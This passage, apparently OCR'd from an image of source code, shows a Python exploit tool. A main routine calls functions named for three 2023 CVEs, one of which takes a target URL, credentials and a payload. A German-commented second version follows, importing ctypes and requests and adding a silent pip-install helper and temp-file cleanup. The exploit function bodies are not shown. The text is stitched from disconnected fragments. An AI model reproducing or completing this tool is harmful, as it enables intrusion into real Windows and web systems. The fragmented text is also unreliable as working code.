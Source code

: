     exploit_cve_2023_21674(args.output_dir)

    if args.target_url and args.username and args.password:
        exploit_cve_2023_21743(args.target_url, args.username, args.password, args.payload)
    else:
        print("CVE-2023-21743: Target URL, username, and password are required.")

    exploit_cve_2023_21549()




---------


mit prüfung ob alle vorausetzungen erfüllt sind 


import ctypes
import ctypes.wintypes
import subprocess
import random
import os
import tempfile
import time
import requests
from requests.auth import HTTPBasicAuth
import argparse
import sys
import shutil

def check_and_install_module(module_name):
    """Überprüft und installiert das benötigte Python-Modul."""
    try:
        __import__(module_name)
        print(f"[INFO] Modul '{module_name}' ist bereits installiert.")
        return True
    except ImportError:
        print(f"[INFO] Modul '{module_name}' ist nicht installiert. Starte Installation...")
        try:
            subprocess.check_call([sys.executable, '-m', 'pip', 'install', module_name], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
            print(f"[INFO] Modul '{module_name}' erfolgreich installiert.")
            return True
        except subprocess.CalledProcessError as e:
            print(f"[FEHLER] Fehler bei der Installation von '{module_name}': {e}")
            return False

def remove_temp_files(temp_dir):
    """Entfernt rekursiv ein Verzeichnis und alle Inhalte."""
    try:
        if os.path.exists(temp_dir):
            shutil.rmtree(temp_dir)
            print(f"[INFO] Temporäres Verzeichnis '{temp_dir}' und Inhalt entfernt.")
    except Exception as e:
        print(f"[FEHLER] Fehler beim Entfernen von '{temp_dir}': {e}")
